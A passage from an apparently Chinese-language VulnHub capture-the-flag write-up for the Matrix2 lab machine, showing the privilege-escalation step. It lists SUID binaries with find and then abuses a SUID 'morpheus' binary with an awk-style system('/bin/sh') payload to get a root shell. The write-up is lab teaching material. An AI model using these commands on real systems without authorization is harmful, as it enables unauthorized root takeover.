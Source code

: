 让我们查查文件的权限情况

```shell
find / -perm -u=s -type f 2>/dev/null
```

![1553692814686](F:\学习资料\github\vulnhub-writeup\matrix2-Unknowndevice64\assets\1553692814686.png)

如图，看到了么，/usr/bin/morpheus，是具有suid的，那么我们就执行一下上述命令看看效果。

```shell
morpheus 'BEGIN {system("/bin/sh")}'
```

![1553692884182](F:\学习资料\github\vulnhub-writeup\matrix2-Unknowndevice64\assets\1553692884182.png)

成功到手，root权限拿下。

查看flag

![1553692937000](F:\学习资料\github\vulnhub-writeup\matrix2-Unknowndevice64\assets\1553692937000.png)

当然，除此之外，其实应该还是有很多其他提权姿势的吧。